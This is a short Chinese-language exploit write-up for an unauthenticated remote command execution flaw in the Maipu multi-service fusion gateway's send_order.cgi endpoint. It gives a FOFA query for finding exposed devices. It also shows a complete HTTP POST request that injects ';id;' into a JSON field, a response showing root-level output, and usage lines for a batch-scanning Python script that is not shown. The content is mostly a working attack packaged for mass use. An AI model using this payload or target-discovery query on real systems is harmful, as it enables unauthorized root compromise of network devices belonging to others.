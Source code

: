 # 迈普多业务融合网关远程命令执行漏洞

### 1.漏洞描述

迈普多业务融合网关 send order.cgi接口处存在命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统指令，从而获取服务器shell权限。

### 2.fofa语法

```plain
title=="迈普多业务融合网关"
```

### 3.漏洞复现

```plain
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 40
Priority: u=1

{"opid":"1","name":";id;","type":"rest"}
```

返回包显示如下：

```plain
HTTP/1.0 200 OK
uid=0(root) gid=0(root)


						
{"type":1,"msg":"ok"}
```

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```